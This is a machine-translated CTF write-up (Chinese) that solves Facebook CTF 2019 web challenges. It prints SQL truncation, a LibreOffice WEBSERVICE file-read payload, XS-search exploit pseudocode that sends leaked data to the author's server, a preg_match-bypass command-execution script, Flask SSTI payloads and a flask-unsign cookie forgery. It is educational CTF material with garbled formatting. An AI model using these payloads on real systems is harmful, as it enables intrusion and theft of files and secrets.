# 解决每个 fb-ctf 挑战第 1 部分

> 原文：<https://infosecwriteups.com/solving-each-and-every-fb-ctf-challenge-part-1-4bce03e2ecb0?source=collection_archive---------0----------------------->

## fb-ctf 网站类别中所有挑战的综述

好吧，在开始之前，让我承认我的错误，我在 5 月 26 日回家后完全忘记了 fb-ctf，当我发现这张纸条时，已经太晚了。
尽管如此，我本可以提出一些挑战，但不幸的是，我在 6 月 2 日至 4 日收到了我的 GSoC 内部提交。



悲哀。

是的，所以我在 6 月 5 日到 8 日之间完成了它，但是嘿，我在 1 日连接到 IRC 聊天( **#fb-ctf** )并且偶尔阅读聊天，这很有趣！

不，我也觉得很有趣

这又是一个危险风格的 CTF，具有 ***动态计分策略*** ，意味着**分数** *【自动】*根据“解决数”参数进行调整。
有些人说它比普通的要难，我发现这是真的。

# 让黑客攻击开始吧


来自社交网络

# Web::产品经理


## 描述



描述

## 解决办法

我们有幸看到了这项挑战的源代码。



db.php

我们可以看到评论，它暗示了旗帜在哪里。这意味着我们需要访问`facebook`元素的描述值。



db.php

在对`db.php`的进一步检查中，由于 SQL 语句的正确准备，SQL 注入似乎不是一个选项。

# 弱点



`check_name_secret`检查输入的`name`和`secret`组合的产品是否存在。然而，`get_product`函数只通过使用`name`参数从数据库中返回一个元素！

这意味着我们可以添加另一个名为`facebook`的元素，它带有一个我们知道的`secret`，并让程序返回找到的第一个名为`facebook`的产品，即带有标志的产品！



它抛出一个名称已经存在的错误。 ***狗屁！***
经过 4-5 个小时的搜索，阅读关于 MySQL 的资料，我了解了关于 **SQL 截断攻击***(*[*ref-1*](https://resources.infosecinstitute.com/sql-truncation-attack/#gref)*|*[*ref-2*](https://blog.lucideus.com/2018/03/sql-truncation-attack-2018-lucideus.html)*)*

实际上，这是 MySQL 的一个问题。MySQL 不在二进制模式下比较字符串。默认情况下，使用更宽松的比较规则。

从文件中引用[的话](https://dev.mysql.com/doc/refman/5.7/en/char.html):

```
All MySQL collations are of type PADSPACE. 
This means that all CHAR, VARCHAR, and TEXT 
values in MySQL are compared without regard 
to any trailing spaces.
```

这导致 MySQL 语句将`"facebook "`视为与`"facebook"`相同

# 剥削！


密码就是 desc 本身

```
Product has been added
```



被剥削了！非 1337 标志:attaking _ sqi _ without _ injection _ is _ amazing _:)

# Web :: pdfme



## 描述



## 探索挑战


欢迎页面

## 这到底是什么？福兹。



OpenDocument 电子表格 XML 定义

好吧，让我们忘记**。fods** 一分钟，上传一个**。TXT** 文件，看看会发生什么… *(知道它是否阻止了我们的请求)*



产生了 1.pdf，是的机器人❤先生

哇，它改装了我们的**。TXT** 文件并生成了一个**。PDF***(果然“pdfme”，还记得吗？)*

利用上传页面的一种常见方式是上传外壳。
**步骤:**
1 .成功上传外壳
2。访问 shell
我们已经检查过它没有任何文件扩展名验证机制，所以我们对第一步很满意。让我们跳到第二个。

为了发现目录，让我们使用 **dirb** :

```
**dirb** [**http://challenges.fbctf.com:8084/**](http://challenges.fbctf.com:8084/)
```

当它运行时，让我们分析一下**。生成的 PDF 文件**:



查看元数据

嗯（表示踌躇等）..LibreOffice 6.0，这是最新版本吗？



不，不是的

好吧，我知道下一步要找什么了！



图书馆办公室安全咨询页面

啊哈！ **远程任意文件泄露漏洞**，我能闻到 ***标志*** 。



演职员表:[https://www.exploit-db.com/raw/44022](https://www.exploit-db.com/raw/44022)

哦，我明白了**。*fods****现在！
我们把 ***poc.fods*** 复制粘贴一下，上传看看我们的理论行不行。*

**

***它没有**，但是这个错误并不能证明它不起作用。让我们试着用我们自己的有效载荷来修改它。它有 23 KB，我们肯定可以最小化这个概念验证。移除所有样式，并制作一个单独的有效负载来显示 **/etc/passwd***

## ***试试#2:***

**

*成功！*

**与此同时，**

**

*绝对不是该走的路。*

*既然能看到文件，那就试试看**。bash_history** ，也许那会帮助我们知道旗帜的位置！*

**

*没有！ *(对于不支持的协议，如 ftp: //或 file: //，WEBSERVICE 返回#VALUE！错误值。)**

****或者也许……****

**

*哇哦。*

```
*=WEBSERVICE("***/home/libreoffice_admin/flag***")*
```

***结尾***

# *秘密笔记保管人*

******

*欢迎屏幕*

*点击“*所有笔记*，会出现:*(搜索笔记和报告 bug 也是如此)**

**

*给出任何登录凭证都有效。我用了“根”/“根”。*

**

*保存名为“ping”的便笺*

***搜索注释:***

**

***检查揭示:***

**

*❤*

*它通过使用 **< iframe >** 加载外部内容*

**

*我可以访问它！*

*我们试试枚举？*

**

*酷，那么如果我们找到正确的 **num，**我们就可以泄漏标志了？对吗？*http://challenges.fbctf.com:8082/note/{#num}**

*过了一段时间，我知道了，我们不能直接访问别人的笔记。然后，我半心半意地尝试了 XSS、CSRF 之类的东西。在尝试这些的时候，当我试图提交一个错误报告时，我也看到了打嗝的请求。我注意到:*

*`HeadlessChrome/74.0.3729.169 Safari/537.36`([https://developers . whatismybrowser . com/user agents/explore/software _ name/chrome/2](https://developers.whatismybrowser.com/useragents/explore/software_name/chrome/2))*

*我停下来想，好吧，我们知道我们必须执行客户端攻击，但是没有用户交互？*

****我放弃了*** ，所以，我得出了一个结论，我必须检查获得这个挑战的资料。但是奇怪的巧合发生了！*

*无意中想起了 **LiveOverflow** *的一个视频(他的* ***最初在 chrome 视频上弹出*** *)，然后渐渐地我想起了他给*解释*一些关于 **XS 的事情——搜索:****

*我开始知道 **XS 搜索**是一个关于网络开发的最近的研究课题。这些攻击的主要目的是通过利用用户从服务中泄露信息。就像旁道攻击。这些攻击被执行`Cross-Origin`*

*稍微搜索了一下，我知道我们不能像 **LiveOverflow** 在他的视频中那样使用确切的方式，因为他使用 **CHROME_XSS_AUDITOR** 错误消息来构建他的漏洞，我们不能使用，因为它运行的 **Chrome 74** 过滤了那个消息。但是，建立一个条件是相当容易的。*

*我们从最初的侦察中知道，如果我们执行一个返回 1 个结果的搜索，那么 1 个`iframe`将与注释一起被创建，如果搜索没有返回结果，那么没有`iframes`被创建。现在，我们可以用**frames . length***(****ref:***[*htmliframeelement . content window*](https://developer.mozilla.org/en-US/docs/Web/API/HTMLIFrameElement/contentWindow)*API)**

## *获取标志的基本工作流程:*

1.  *在端口 80 上启动一个服务器，端口转发，这样它就可以到达。*
2.  *编写一个 python 脚本来解决 pow(工作证明),并使用我们服务于该漏洞的服务器的 URL 向*的**错误报告**提交请求。**
3.  **写主要的 exploit 三明治。**

## **我们利用的伪代码**

```
**chars = ‘All printable character list’;
target = “[http://challenges.fbctf.com:8082/search?query=](http://challenges.fbctf.com:8082/search?query=)"
attr = document.createElement(‘iframe’);function exploit() {
for char in chars:
 iframe src => “[http://challenges.fbctf.com:8082/search?query=](http://challenges.fbctf.com:8082/search?query=)" + “fb{“
 console.log(“leaked data = “ + “fb{“ + char);
 attr.onload = () => {
 if (attr.contentWindow.frames.length != 0) {
     ping.own.server.with.data(“fb{“ += char, “POST”, “no-cors”) 
 }
}exploit()**
```

****就这样。****

```
****flag : fb{cr055_s173_l34|<5_4r4_c00ool!!}****
```

# **web :: rceservice**

****

## **描述**

****

**我们有源代码，来看看吧！**

****

**index.php**

**好了，现在让我们来看看这个挑战:**

****

**好，让我们测试一个示例命令， **{"cmd":"ls"}****

****

**酷，但是我们不能执行其他命令。咄。
*(preg_match 阻塞了除小写字母和空格之外的所有内容，regex 似乎并不脆弱。)***

**阅读关于 **preg_match()** 透露一个有趣的评论！**

****

****测试****

****

**在 PHP 7.2 上工作**

**让我们通过创建一个漏洞来测试我们的理论:**

```
**{“cmd” : “ls -la”, “test” : “aaaaaaaaaa …”}**
```

****

**又检测到黑客企图？**

**不起作用，如果我们做错了什么，让我们看看限制:**

****

**哦，回溯极限是 1000000，我们再修改测试一下:**

****

**我们去找旗子吧！**

****

**抓住你了。让我们读国旗。**

****

**什么！？**

****

**哎呀。**

**如果你关注过**index.php**，你可能会记得应用程序的路径变量被:**

```
**putenv('PATH=/home/rceservice/jail');**
```

**这意味着我们当前的路径包含了 **ls** 二进制文件，这让我们可以执行它，但是不能执行 **cat** 。我们可以通过使用 cat 的绝对路径`/bin/cat`来绕过它。**

****最终漏洞:****

```
**import requests;payload = '{"cmd":"cd /home/rceservice/ && /bin/cat flag", "test" : "' + "a"*(1000000) + '"}';requests.post("[http://challenges.fbctf.com:8085/](http://challenges.fbctf.com:8085/)", data={"cmd":payload}).text**
```

****

**wot！**

**为了寻求了解**更多的** **preg_match()** **绕过** **技法**，我得到了这个:**

****

**所以，我看了报道，我很惊讶！**

****

**我测试了一下**,效果非常好！**
快速参考了解他的做法( [**ref**](https://stackoverflow.com/questions/2392766/multiline-strings-in-json) )**

****

**精神错乱！**

# **web::事件**

****

## **描述**

********

**欢迎页面**

**添加一个事件后，点击管理面板，得到一个“对不起，男人”的消息，让我们进入正题:**

****

**对我来说有意思的参数是**“用户”**和**“pow”** 在尝试解密 pow 的 md5 部分失败*(我看出来了)* 之后我直言不讳地搜索了**“解码 cookie”****

****

**嗯嗯…**

**Flask 会话，是的，看起来像一个 Flask 应用程序。不管怎样，让我们解码吧！**

****

**哦，哇，的确，但是..**如何？，我想知道！！****

****

**就一个 **base64** 用(。) ?(我们自己也可以！)**

****

**搞定了。其他部分呢？**

****

**无论如何，我们现在 80%确定这是一个烧瓶应用*(可能是一个骗局，但是，嗯)***

**所以，在阅读了 Flask Cookies 之后，“利用加密 Cookies 来娱乐和获利”等等…**

**我无处可去，所以我又看了一遍挑战，它还说了一些关于“字符串格式”的东西，让我们再搜索一遍:**

****

**行..让我们深入了解一下。**

****

**让我们搜索有效载荷，**PayloadAllTheThings/SSTI** 在对可疑的 **event_important** param 进行了一些失败的尝试之后，我们得到了:**

********

**结果**

****成功了！**现在，我们读到{ {感谢 Flask 的精彩文档} } cookie 是用**密钥**签名的，该密钥存储在 **SECRET_KEY** 环境变量中。让我们看看它通常存放在哪里。([***ref***](https://stackoverflow.com/questions/22463939/demystify-flask-app-secret-key))**

**与此同时，我找到了一个名为 [*tplmap*](https://github.com/epinna/tplmap) 的工具，心想，为什么不试一试呢？
好的，在它运行的时候，让我看看，我记得一篇关于混淆 python 的博文，其中包括 **__class__** 和其他东西。**

****

**啊哈！**

**这介绍了 Python 的许多内部工作和定义。所以，我们想要得到配置，它通常存储在并可以通过运行 *app.config.* 找到。顺便说一下，我发现了另一个很棒的博客，它严格地聚焦于我们想要学习的东西，[***https://rushter.com/blog/python-class-internals/***](https://rushter.com/blog/python-class-internals/)**

**长话短说，你会知道这些 __ 布拉 _ _ 被称为**【魔法方法】****

***经过大约 2 个小时的搜索、阅读、积累……***

****

**最后，它必须有 **SECRET_KEY** / **标志。****

****

**Checking，**_ _ subclass _ _，__globals__，__dict__，__init__** 等。
我们可以看到 **__init__** 是一个使用以下有效载荷的函数:**

```
**Payload :
__init__.__dict__ Output :
{‘_sa_original_init’: <function _declarative_constructor at 0x7fb2c3a6f730>}**
```

**让我们通过使用 **__globals__** 来枚举 __ **init__** 函数，因为我们读到“ **__globals__** 持有**函数的全局变量**”—docs.python.org**

```
**__init__.__globals__**
```

****

**__globals_ 的内容**

**酷，正如我们所说， **app** 包含配置信息。现在，我们需要枚举 **app** 参数。既然是 **dict** ，我们就可以做*payload[‘app’]，*来试试吧！**

```
**Payload :
__init__.__globals__[app]Output :
<Flask 'app'>**
```

***嗯..*大家看看我们现在的工作流程，app 是变量，我们一般用 app.config，config 是方法，我们用 __dict__ 枚举方法，需要从 app 中获取数据。**

**两个都列举一下吧！**

```
**Payloads :
__init__.__globals__[app].config.__dict__
__init__.__globals__[app].__dict__**
```

****

**耶！终于！还是没有？**

**它看起来不像一面旗帜。*(但是..但是它有“FB”)
我想，我一直都是错的，但是后来我突然想到，我们在做什么？***

**是啊！我们试图进入**“管理面板”，**我们还阅读了**“如何利用 cookies 获取乐趣和利润”**，**哦！****

****

**耶，我们成功了！([http://flask.pocoo.org/docs](http://flask.pocoo.org/docs))**

**同时，工具*(*[*TPL map*](https://github.com/epinna/tplmap)*)*什么也做不了:**

```
**Header parameter: Cookie
  Engine: Twig
  Injection: 1:1})}}*{{1
  Context: code
  OS: undetected
  Technique: blind
  Capabilities:Shell command execution: no
   Bind and reverse shell: no
   File write: no
   File read: no
   Code evaluation: ok, php code (blind)**
```

**好吧，所以，在阅读文档之前，让我们看看我们是否能找到低挂信息，因为我累了…**

****

**这澄清了一切，但我更深入一点..**

****

**让我们用**拆瓶**吧，因为我们要做**签字**，**锻造**。根据它的文档，**

****

**我们将修改给定的示例，我们知道当我们解码 cookie 时，它会给出用户名，还记得吗， *base64 解码*？**

```
**flask-unsign --sign --cookie "admin" --secret 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'**
```

****

**饼干，饼干**

**太好了，我们得到了一个签名饼干，现在，让我们试着**伪造**它。**

****

**wo0t！**

**解决后，我看到了最后一页，检查它。**

****

**我在想，如果标志存储在某个函数中，比如我们在枚举 **app.config** 时看到的 **get_flag()** 函数，我们可以更进一步，在不执行上述所有操作的情况下枚举标志。不幸的是，这里的情况并非如此。**

****

**一直往前走。(来自社交网络的台词)**

# ****有趣的事实****

> **我在做这个博客的时候，用 **test/test 登录。**看看发生了什么！**

****

> *****故事寓意:一个人能得 957 分只是因为运气好！*****
> 
> *****或者，如果有共同点，你应该尝试所有 l33t 证书。(当然，你什么也学不到，不，我不要。)*****

# **web::人力资源管理模块**

****

## **描述**

********

**欢迎页面**

****只有 4 个解决了！** *(咳嗽)*反正有什么错？**

****

**我们知道在哪里寻找&我们将利用什么技术。**

****

**“搜索用户”功能被禁用，但我们可以通过`user_search`查看“搜索员工”结构— `/?employee_search=mark`
提出请求，根据我的经验，这可能涉及 SQL 注入访问受限访问。我们可以注入两个参数，让我们两个都试试。
**employee_search** 没有给出任何结果，但是可疑的 **user_search** 给出了*(如预期)*，我们尝试注入`'`，它没有给出任何结果，但是当我刷新页面时，它给出了以下输出:**

****

**看着眼熟，我见过，让我看看出处:**

****

**似乎它使用了基于 PHP 会话的 flash messages([ref](https://stackoverflow.com/questions/32015213/php-session-based-flash-message))
之后，我打开了 pentestmonkey 的 Postgres SQL 注入备忘单，尝试注入查询。其中一些给出了警告信息，一些没有，但没有一个起作用。我一无所知。**

**我感觉很糟糕，因为在搜索时我意外地结束了*(不完全是，因为我太累了，我只是点击了)*看到了[**PDKT-Team/FBC TF 2019/HR-admin-module**](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)
如果我花更多的时间，我可能会学到更多，但我仍然深入了解了各种类型的 SQL 注入，完全没有意识到**带外 SQL 注入**，**sq****

> **这是一个总结，留意**第二部分****

# **关于作者**

**Piyush Raj 现在是一名 18 岁的大学新生，目前在 OWASP 基金会担任谷歌学生开发者。他是过去的**谷歌代码贡献获奖者**，喜欢玩**足球**。**

***你可以通过*[***LinkedIn***](https://linkedin.com/in/0x48piraj)***，***[***Twitter***](https://twitter.com/0x48piraj)***，***[***insta gram***](https://instagram.com/piyushrajofficial)***与他联系。*****

**[](https://www.linkedin.com/in/0x48piraj)****[](https://twitter.com/0x48piraj)****[](https://www.instagram.com/piyushrajofficial/)

社交爵士乐。**